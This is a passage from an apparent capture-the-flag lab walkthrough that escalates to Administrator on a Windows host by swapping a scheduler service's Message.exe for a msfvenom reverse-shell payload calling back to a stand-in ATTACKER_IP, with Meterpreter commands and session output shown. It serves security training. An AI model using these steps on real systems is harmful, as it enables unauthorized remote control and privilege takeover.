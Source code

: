 System Scheduler Service Wrapper

* Browse to "c:\Program files (x86)\systemscheduler" directory.
  * "logfile.txt" shows that service is running every 30 seconds.
  * "logfileadvanced.txt" shows that service runs using administive privileges.

02/26/24 02:37:21,ElevationType1:1 Elevation2:1 \*\*\*IntegrityLevel3:12288 (:)

02/26/24 02:37:21,AD1=1 AD2=1 (:)

02/26/24 02:37:21,Preferences Loading (Administrator:1)

* "Events" subfolder contains "20198415519.INI\_LOG.txt".
  * "message.exe" binary is used by "SystemScheduler" service.

02/26/24 06:14:01,Event Started Ok, (Administrator)

02/26/24 06:14:33,Process Ended. PID:2964,ExitCode:4,Message.exe (Administrator)

**8. Use gathered information to exploit target and become Administrator.**

* Generate another payload using msfvenom.

msfvenom -p windows/meterpreter/reverse\_tcp -a x86 --encoder x86/shikata\_ga\_nai lhost=ATTACKER\_IP lport=4446 -f exe -o shell2.exe

* Upload payload to target using meterpreter reverse shell.

cd "c:\\\Program Files (x86)\\\SystemScheduler"

upload /root/Desktop/HackPark/shell2.exe

mv Message.exe Message.exe.bkp

* Overwrite service executable with reverse shell on target.

mv shell2.exe Message.exe

* Background current meterpreter session and create another listener.

background

exploit

* Gain shell as administrator on listener.
  * Wait for "WindowsScheduler" to run to receive another meterpreter with root.

\[\*] Sending stage (175686 bytes) to TARGET\_IP

\[\*] Meterpreter session 2 opened (ATTACKING\_IP:2345 -> TARGET\_IP:49565) at 2024-02-26 15:30:02 +0000

getuid

Server username: HACKPARK\Administrator

### **Privilege Escalation Without Metasploit** <a href="#id-53sizkedk6mv" id="id-53sizkedk6mv"></a>

**1. Pivot from netcat session to more stable reverse shell.**

* Create msfvenom payload using "windows/shell\_reverse\_tcp".
